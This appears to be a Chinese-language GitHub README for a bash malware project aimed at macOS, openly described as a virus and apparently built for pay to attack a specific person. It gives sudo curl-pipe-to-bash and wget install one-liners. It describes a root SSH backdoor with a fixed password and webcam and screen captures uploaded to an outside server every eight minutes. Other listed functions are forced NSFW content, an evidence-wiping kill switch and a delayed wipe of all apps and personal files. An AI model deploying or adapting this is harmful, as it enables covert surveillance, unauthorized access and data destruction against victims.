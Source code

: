 # 史上第一款，MacOS M系列病毒，100%纯bash（需要手动给予权限/nclick exploit）

首次设置
---
`sudo curl -fsSL https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/humaninter.sh | bash`

一键启动
---
`wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`

(一键启动之后建议先CTRL+C然后把~/programfiles/time.txt文件vim一下往后调3个小时，让他先强制运行一遍，确认上传+权限Terminal已经给好。然后重启电脑，确认DL.app也拥有相应权限。之后建议把Time再改回来然后直接重启。）

一键启动如果出现无法启动，没有下载完全等bug请用一下指令修复

`sudo rm -rf ~/programfiles && wget https://raw.githubusercontent.com/Thomas20090425/Ultimate-Troll/refs/heads/main/init-main.sh && sh init-main.sh`

病毒功能介绍：
---
1.把root用户变成活跃用户，激活root的ssh，并将root密码更改为Aa112211!，给MacOs系统创建后门

2.完全禁用MacOS睡眠功能，保证系用永远运行，关上机盖不会影响脚本运行，更不会影响ssh的通行。

3.每8分钟通过摄像头拍一张图片，截一张桌面的图片并上传至drive.genshinimpact.ca

4.NSFW抽卡式随机壁纸，每隔随机一段时间，会自动获取一张壁纸，保底为10（第十张图片一定是NSFW，否则SFW）通过两个不同的API，达到终极社死。

5.随机音频，每隔随机一段时间，会自动从内置的音效文件夹里播放一个音效，保底为10（第十个音频一定是长音频，否则短音效），播放过程中，声音为100%，而且无法静音，无法暂停，系统无法显示播放数据。

6.每隔一段时间会通过默认浏览器随机打开在名单里的一个默认黄色网页。

7.带有紧急叫停功能，每隔20秒会检查https://genshinimpact.ca/favicon.ico在不在，如果返回数据不是200，那么说明已经被紧急叫停。进入证据销毁模式，删除所有软件残留以及mac的全乎log与cach，恢复所有设置并且重新启动刷新低代码nvram。（这个也是“原谅朋友”功能）

8.自动安装所有依赖脚本。

9.3个月后系统自毁（有杀伤力）：删除所有app，删除所有个人文件，创建50个乱码帐户，将admin帐户密码改成Aa112211!。（脚本同时自毁）。

Note：
---
1.这名感谢某个金主爸爸赞助了50$买了我3天的时间编了这个bash，我3个月内再碰一次bash我就是个狗。

2.任何损失和作者无关，如果你不知道你在干什么，不要干！

3.由于本人偷懒，很多东西没有用variable，是直接按照那个人要攻击的要求做的。所以fork之后是不可能在你的电脑上能用的。建议各位更改脚本里的：
 - 用户名
 - 密码
 - 后门网站
 - WebDav文件上传地址

4.玩的开心。
